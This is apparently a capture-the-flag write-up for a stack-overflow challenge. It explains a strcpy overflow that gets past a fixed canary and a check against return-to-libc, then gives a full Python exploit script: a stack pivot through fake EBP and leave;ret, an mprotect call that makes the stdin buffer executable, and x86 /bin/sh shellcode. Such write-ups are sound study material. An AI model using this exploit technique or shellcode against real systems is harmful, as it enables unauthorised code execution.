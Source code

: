 # Vulnerability
```c
char buffer[256];

// stack overflow!!
strcpy(buffer,ptr);
```
This program uses strcpy function so this program can be overwrited.

# Exploitation
This program calls `vuln` function that uses strcpy function with parameter canary(0x31337), buffer's address.

In `vuln` function, the protection code is:
```c
// overflow protected
if(canary != 0x31337)
{
  printf("who broke my canary?!");
  exit(1);
}

// preventing RTL
ret = &canary - 1;
if((*ret & 0xff000000) == 0) 
{
  printf("I've an allergy to NULL");
  exit(1);
}

// clearing attack buffer
memset(ptr, 0, 1024);
```
I have to bypass canary check and not use RTL.

This program does not reset `stdin`'s buffer, So I will give permission on that address then the address able to be executed.

The payload will be:
```
------------------------------------------------------------------------------------------------------------------------------------------------------------------
| buffer(256) | dummy(4) | fake EBP(4) | leave&ret(4) | canary(4) | mprotect(4) | fake_ebp+100(4) | stdin(4) | size(4) | permission(4) | "\x90"(256) | shellcode |
------------------------------------------------------------------------------------------------------------------------------------------------------------------
```

# Payload
```python
import os
from struct import *
from socket import *
from time import sleep

p = lambda x: pack('<L', x)

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
stdin		= 0xb7ff7000
fake_ebp 	= 0xb7ff710c
mprotect 	= 0x0086d240
canary		= 0x00031337
leave_ret	= 0x0804858e

payload = ""
payload += "A"*256
payload += "A"*4
payload += p(fake_ebp) + p(leave_ret) + p(canary)
payload += p(mprotect) + p(fake_ebp+100)
payload += p(stdin) + p(0x00000800) + p(0x00000007)
payload += "\x90"*256 + shellcode

print payload
```
